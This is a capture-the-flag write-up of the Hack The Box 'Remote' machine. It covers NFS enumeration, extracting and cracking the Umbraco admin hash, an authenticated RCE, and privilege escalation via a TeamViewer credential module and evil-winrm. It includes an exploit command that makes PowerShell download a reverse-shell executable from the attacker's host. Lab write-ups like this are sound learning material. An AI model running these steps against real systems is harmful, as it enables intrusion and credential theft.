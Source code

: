 ```yaml
---
layout: single
title: Remote
date: 2020-12-24
classes: wide
tags:
  - htb
  - umbraco
  - metasploit
  - msfvenom
  - windows
  - winpeas
  - evil-winrm
---
```


# Remote
### 10.10.10.180

![nmap](/assets/images/htb/remote/header.png)

### Port Scanning and general enumeration (Nmap, Umbraco)
* Reading/Resources
  * [Nmap manual](https://nmap.org/book/man.html)
  * [Umbraco](https://umbraco.com/)
 
`nmap -sC -sV -oN nmap/initial -T4 10.10.10.180`

![nmap](/assets/images/htb/remote/nmap.png)

Interesting. FTP, Webserver and maybe some nfs shares we can mount?

Let's take a look at the site

![nmap](/assets/images/htb/remote/site1.png)

Looks like some sort of blog.. 'Umbraco'?

![nmap](/assets/images/htb/remote/site2.png)

![nmap](/assets/images/htb/remote/login.png)

So we've found a login form. Nice. Default creds didn't work, so we'll come back to this.

Let's see if there's anything to mount

![nmap](/assets/images/htb/remote/showmount.png)

Interesting! Let's mount it

`sudo mount -t nfs 10.10.10.180:/site_backups /path/to/where/you/want/to/save/it`

Full site backup!

Since we know the backend is **Umbraco**, we can find the version in the `Web.config` file and credentials in the `App_Data/Umbraco.sdf` file.

Version:

![nmap](/assets/images/htb/remote/version.png)

To get the credentials we can run `strings` on the `Umbraco.sdf` file, redirect it to a file and run `head` on that file

![nmap](/assets/images/htb/remote/creds.png)

So the admin password is a `SHA1` hash. Let's crack it and log in using `Admin@htb.local:cracked-password` in the forms we found earlier.

---

### Access (Umbraco RCE, msfvenom)
* Reading/Resources
  * [Umbraco RCE](https://github.com/noraj/Umbraco-RCE)
  * [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/)
  * [Metasploit](https://www.metasploit.com/)
  

So now that we're authenticated we have a little more room to play with things. I found this [Umbraco RCE](https://github.com/noraj/Umbraco-RCE) script that should be perfect

![nmap](/assets/images/htb/remote/rce.png)

Nice! So now we have remote code execution. Let's get a proper shell

![nmap](/assets/images/remote/msfvenom.png)

Stand up a simple [python http server](https://docs.python.org/3/library/http.server.html) and use the exploit to transfer our executable to the machine

`python3 exploit.py -u admin@htb.local -p password -i 'http://10.10.10.180' -c powershell.exe -a '-NoProfile -Command Invoke-WebRequest -Uri http://10.10.14.22:8000/rev.exe -OutFile C:/Users/Public/rev.exe`

Now that our shell is on the box, let's fire up a `metasploit` listener

![nmap](/assets/images/htb/remote/listener.png)

Trigger the shell and off we go

---

### Privesc (winPEAS, evil-winrm)
* Reading/Resources
  * [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
  * [evil-winrm](https://github.com/Hackplayers/evil-winrm)

Now that we're on the box, let's do some enumeration. I like [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

Upload and run it

![nmap](/assets/images/htb/remote/peasupload.png)

![nmap](/assets/images/htb/remote/peas.png)

Interesting. Teamviewer7 also has a [metasploit module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/credentials/teamviewer_passwords.md). Let's see what that has for us

Background your meterpreter session and

![nmap](/assets/images/htb/remote/teamviewersearch.png)

![nmap](/assets/images/htb/remote/teamviewerpassword.png)

Could that be the **Admin** password? Let's check using [evil-winrm](https://github.com/Hackplayers/evil-winrm)

![nmap](/assets/images/htb/remote/admin.png)

![nmap](/assets/images/htb/remote/userflag.png)

![nmap](/assets/images/htb/remote/rootflag.png)
